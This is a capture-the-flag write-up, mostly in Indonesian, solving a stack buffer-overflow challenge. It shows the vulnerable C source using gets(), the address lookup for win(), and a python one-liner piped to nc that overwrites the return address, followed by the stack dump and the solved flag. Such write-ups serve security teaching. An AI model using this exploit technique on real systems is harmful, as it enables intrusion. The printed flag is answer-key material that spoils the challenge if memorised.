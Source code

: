# RIP my bof (Binary)
Okay so we have a bof, can we get it to redirect IP (instruction pointer) to something else?
<br>
If you get stuck liveoverflow covers you again!
<br>
nc thekidofarcrania.com 4902
# Solved
Cek source nya
```cpp
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

// Defined in a separate source file for simplicity.
void init_visualize(char* buff);
void visualize(char* buff);

void win() {
  system("/bin/cat /flag.txt");
}

void vuln() {
  char padding[16];
  char buff[32];

  memset(buff, 0, sizeof(buff)); // Zero-out the buffer.
  memset(padding, 0xFF, sizeof(padding)); // Mark the padding with 0xff.

  // Initializes the stack visualization. Don't worry about it!
  init_visualize(buff); 

  // Prints out the stack before modification
  visualize(buff);

  printf("Input some text: ");
  gets(buff); // This is a vulnerable call!

  // Prints out the stack after modification
  visualize(buff); 
}

int main() {
  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  vuln();
}
```
Tugas kita disini adalah mengeksekusi fungsi dari <b>win</b>, sebelumnya untuk mendapatkan address dari <b>win</b>
```console
$ objdump -D server | grep "win"
08048586 <win>:
```
Kemudian lakukan bufferoverflow sampai mengubah address dari <b>0x0804868b</b>
```console
Legend: buff MODIFIED padding MODIFIED
  notsecret MODIFIED secret MODIFIED
  return address MODIFIED
0xffbc24c0 | 00 00 00 00 00 00 00 00 |
0xffbc24c8 | 00 00 00 00 00 00 00 00 |
0xffbc24d0 | 00 00 00 00 00 00 00 00 |
0xffbc24d8 | 00 00 00 00 00 00 00 00 |
0xffbc24e0 | ff ff ff ff ff ff ff ff |
0xffbc24e8 | ff ff ff ff ff ff ff ff |
0xffbc24f0 | c0 85 74 f7 00 a0 04 08 |
0xffbc24f8 | 08 25 bc ff 8b 86 04 08 |
Return address: 0x0804868b
```
Ini perintah yang saya gunakan
```console
$ python -c 'print ("A" * 60) + "\x86\x85\x04\x08"' | nc thekidofarcrania.com 4902

Legend: buff MODIFIED padding MODIFIED
  notsecret MODIFIED secret MODIFIED
  return address MODIFIED
0xffbc24c0 | 00 00 00 00 00 00 00 00 |
0xffbc24c8 | 00 00 00 00 00 00 00 00 |
0xffbc24d0 | 00 00 00 00 00 00 00 00 |
0xffbc24d8 | 00 00 00 00 00 00 00 00 |
0xffbc24e0 | ff ff ff ff ff ff ff ff |
0xffbc24e8 | ff ff ff ff ff ff ff ff |
0xffbc24f0 | c0 85 74 f7 00 a0 04 08 |
0xffbc24f8 | 08 25 bc ff 8b 86 04 08 |
Return address: 0x0804868b

Input some text:
Legend: buff MODIFIED padding MODIFIED
  notsecret MODIFIED secret MODIFIED
  return address MODIFIED
0xffbc24c0 | 41 41 41 41 41 41 41 41 |
0xffbc24c8 | 41 41 41 41 41 41 41 41 |
0xffbc24d0 | 41 41 41 41 41 41 41 41 |
0xffbc24d8 | 41 41 41 41 41 41 41 41 |
0xffbc24e0 | 41 41 41 41 41 41 41 41 |
0xffbc24e8 | 41 41 41 41 41 41 41 41 |
0xffbc24f0 | 41 41 41 41 41 41 41 41 |
0xffbc24f8 | 41 41 41 41 86 85 04 08 |
Return address: 0x08048586

CTFlearn{c0ntr0ling_r1p_1s_n0t_t00_h4rd_abjkdlfa}
timeout: the monitored command dumped core
```
Flag : <b>CTFlearn{c0ntr0ling_r1p_1s_n0t_t00_h4rd_abjkdlfa}</b>
